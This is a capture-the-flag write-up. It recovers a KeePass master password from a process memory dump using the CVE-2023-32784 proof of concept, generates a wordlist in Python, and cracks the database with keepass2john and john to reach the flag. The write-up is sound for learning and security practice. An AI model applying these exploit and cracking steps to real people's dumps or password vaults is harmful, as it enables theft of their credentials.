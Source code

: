 # keepass
## Challenge 
A kdbx Database and a KeePass.DMP file were provided. The challenge is, to decrypt the kdbx database.

## Solution
KeePass had a vulnerability, that allowed a hacker to extract the master password for a kdbx database from a dump file, see [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784).
I used poc.py from [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey) to exploit the vulnerability:
```python
python3 poc.py -d KeePass.DMP 
```
The output was:
```
2023-09-19 16:25:11,241 [.] [main] Opened KeePass.DMP
Possible password: ●3deutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●Ndeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●cdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●ddeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●edeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●fdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●gdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●-deutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●#deutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●Wdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●Xdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●Cdeutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●0deutschlands00_00B3ST3R00_00Hack3r2023
Possible password: ●;deutschlands00_00B3ST3R00_00Hack3r2023
```

I then made a "wordlist.txt" out of it, using the following python code:
```python
password='deutschlands00_00B3ST3R00_00Hack3r2023'
second_char=['3','N','c','d','e','f','g','-','#','W','X','C','0',';']
first_char=[chr(i) for i in range(32,128)]

wordlist=[]
for s in second_char:
	for f in first_char:
		wordlist+=[f+s+password]

with open('wordlist.txt','w') as f:
	for word in wordlist:
		f.write(word+'\n')
```
using that wordlist, i brute forced the master password using john: <br/>
```keepass2john passwords.kdbx >hash.txt``` <br/>
```john --wordlist=wordlist.txt hash.txt``` <br/>
 <br/>
The master key is: `<3deutschlands00_00B3ST3R00_00Hack3r2023` <br/>
Open the kdbx Database using it to get the flag: DBH{D3utsch1ands_b3s73r_HACKER2023}
